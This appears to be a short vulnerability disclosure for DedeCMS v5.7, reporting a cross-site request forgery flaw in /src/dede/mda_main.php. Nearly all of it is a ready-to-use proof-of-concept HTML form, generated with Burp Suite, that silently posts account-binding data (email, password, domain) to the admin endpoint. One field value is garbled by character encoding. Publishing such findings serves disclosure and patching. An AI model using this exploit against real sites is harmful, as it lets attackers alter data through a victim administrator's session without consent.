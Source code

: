 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /src/dede/mda_main.php
![1](https://github.com/lcg-22266/cms/assets/68074499/a509f3ea-9fff-4b5f-982c-c8572fcf921d)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/mda_main.php?" method="POST">
      <input type="hidden" name="dopost" value="bind&#95;user" />
      <input type="hidden" name="email" value="cs&#64;123&#46;com" />
      <input type="hidden" name="pwd" value="Qwer1234" />
      <input type="hidden" name="domain" value="127&#46;0&#46;0&#46;1" />
      <input type="hidden" name="channel&#95;name" value="�&#136;&#145;�&#154;&#132;�&#189;&#145;�&#171;&#153;" />
      <input type="hidden" name="imageField1&#46;x" value="28" />
      <input type="hidden" name="imageField1&#46;y" value="10" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```
![2](https://github.com/lcg-22266/cms/assets/68074499/b1595e57-92c0-420e-b9b5-0736c7d41bf4)



This operation can complete the modification of the data
